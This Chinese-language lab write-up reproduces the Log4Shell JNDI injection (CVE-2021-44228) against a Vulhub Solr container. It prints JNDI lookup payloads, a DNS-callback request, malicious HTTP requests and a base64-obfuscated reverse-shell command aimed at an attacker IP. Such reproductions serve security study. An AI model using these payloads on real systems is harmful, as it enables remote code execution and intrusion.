

# Apache Log4j2 lookup JNDI 注入漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

CVE-2021-44228常被称为`log4shell`。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

Payloads：

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md

## 环境搭建

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

Vulhub执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:ldap://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```


我们可以在DNS日志平台收到相关日志，显示出当前Java版本：


实际利用JNDI注入漏洞，可以使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit)。


利用完毕后，可见`touch /tmp/awesome_poc`已经成功被执行：


### 反弹shell

构造反弹shell命令：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}
```



构造Payload：

```
GET /solr/admin/cores?action=${jndi:ldap://192.168.174.128:1389/chof5b} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

监听9999端口，接收反弹shell：

